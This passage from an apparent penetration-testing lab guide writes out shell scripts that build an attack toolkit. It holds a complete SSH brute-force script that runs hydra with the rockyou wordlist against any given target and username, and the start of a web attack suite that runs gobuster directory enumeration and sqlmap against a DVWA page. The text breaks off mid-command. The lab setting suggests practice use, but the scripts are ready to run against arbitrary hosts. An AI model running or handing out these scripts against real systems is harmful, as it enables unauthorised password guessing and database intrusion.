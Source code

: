 ### 2. SSH Brute Force Script

```bash
tee ~/attack-scripts/exploit/ssh-bruteforce.sh > /dev/null <<'EOF'
#!/bin/bash

# SSH Brute Force Attack
TARGET=$1
USERNAME=$2
WORDLIST=${3:-/usr/share/wordlists/rockyou.txt}
OUTPUT_DIR=~/attack-logs/$(date +%Y%m%d_%H%M%S)_ssh-brute
mkdir -p $OUTPUT_DIR

if [ -z "$TARGET" ] || [ -z "$USERNAME" ]; then
    echo "Usage: $0 <target_ip> <username> [wordlist]"
    echo "Example: $0 192.168.1.40 admin"
    exit 1
fi

echo "[*] Starting SSH brute force attack"
echo "[*] Target: $TARGET"
echo "[*] Username: $USERNAME"
echo "[*] Wordlist: $WORDLIST"
echo "[*] Output: $OUTPUT_DIR"

# Check if wordlist is compressed
if [[ $WORDLIST == *.gz ]]; then
    echo "[*] Decompressing wordlist..."
    TEMP_WORDLIST=/tmp/wordlist.txt
    gunzip -c $WORDLIST > $TEMP_WORDLIST
    WORDLIST=$TEMP_WORDLIST
fi

# Run hydra
hydra -l $USERNAME -P $WORDLIST -t 4 ssh://$TARGET -o $OUTPUT_DIR/results.txt

echo "[+] Attack complete! Check $OUTPUT_DIR/results.txt"
EOF

chmod +x ~/attack-scripts/exploit/ssh-bruteforce.sh
```

### 3. Web Application Attack Script

```bash
tee ~/attack-scripts/exploit/web-attacks.sh > /dev/null <<'EOF'
#!/bin/bash

# Web Application Attack Suite
TARGET=${1:-192.168.1.40}
OUTPUT_DIR=~/attack-logs/$(date +%Y%m%d_%H%M%S)_web-attacks
mkdir -p $OUTPUT_DIR

echo "[*] Starting web application attacks against $TARGET"

# Directory enumeration
echo "[*] Directory enumeration..."
gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirb/common.txt -o $OUTPUT_DIR/directories.txt

# SQL Injection tests
echo "[*] Testing SQL injection..."
sqlmap -u "http://$TARGET/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="security=low; PHPSESSID=test" \
```
